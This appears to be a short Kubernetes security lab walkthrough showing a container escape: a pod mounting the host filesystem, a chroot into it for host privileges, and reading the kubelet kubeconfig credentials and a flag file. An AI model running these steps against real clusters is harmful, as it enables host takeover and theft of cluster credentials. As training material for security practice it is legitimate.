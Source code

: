 # K8S Security: Container Escape to Host

1. Lets apply our deployment.

```
kubectl apply -f deployment_host_fs.yaml
```
_Enter the container._

[The most pointess Kubernetes command ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/).


2. Get pods.
```
kubectl get pods
```

3. Enter a pod.
```
kubectl exec -it [pod_name] -- bash
```
4. List the file system.
```
ls
```
5. Lets cd into the /k8-host directory.
```
cd /k8-host
```
6. Then lets run chroot to change the root directory and get host privileges
```
chroot . bash
```
7. We can now pull the certificates for the cluster.

```
cat /var/lib/kubelet/kubeconfig
```
```
ls
```
```
cat flag
```
8. Exit
```
exit
```
9. Cleanup
```
kubectl delete -f deployment_host_fs.yaml
```
